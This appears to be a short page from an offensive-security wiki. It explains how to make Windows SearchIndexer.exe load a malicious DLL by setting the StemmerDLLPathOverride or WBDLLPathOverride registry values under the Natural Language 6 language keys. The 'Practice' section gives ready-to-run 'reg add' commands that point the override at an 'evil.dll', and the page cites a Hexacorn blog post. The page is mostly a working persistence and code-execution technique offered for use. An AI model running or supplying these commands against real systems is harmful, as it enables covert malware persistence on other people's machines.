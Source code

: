 # Natural Language 6 DLLs

## Theory

Under any of the languages in the Natural Language Development Platform 6 library (NaturalLanguage6.dll) registry keys, we can set the value of either `StemmerDLLPathOverride` or `WBDLLPathOverride` to the location of our malicious DLL. The DLL will be loaded via LoadLibrary executed by SearchIndexer.exe.

## Practice

{% tabs %}
{% tab title="Natural Language 6 DLLs" %}
You can force SearchIndexer.exe to load some DLLs specified in this registry:

* `HKLM\System\CurrentControlSet\Control\ContentIndex\Language\<some language>\StemmerDLLPathOverride`
* `HKLM\System\CurrentControlSet\Control\ContentIndex\Language\<some language>\WBDLLPathOverride`

```powershell
# StemmerDLLPathOverride
reg add "HKLM\System\CurrentControlSet\Control\ContentIndex\Language\English_US" /v StemmerDLLPathOverride /t REG_SZ /d "C:\Users\root\evil.dll"

# WBDLLPathOverride
reg add "HKLM\System\CurrentControlSet\Control\ContentIndex\Language\English_US" /v WBDLLPathOverride /t REG_SZ /d "C:\Users\root\evil.dll"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.hexacorn.com/blog/2018/12/30/beyond-good-ol-run-key-part-98/" %}
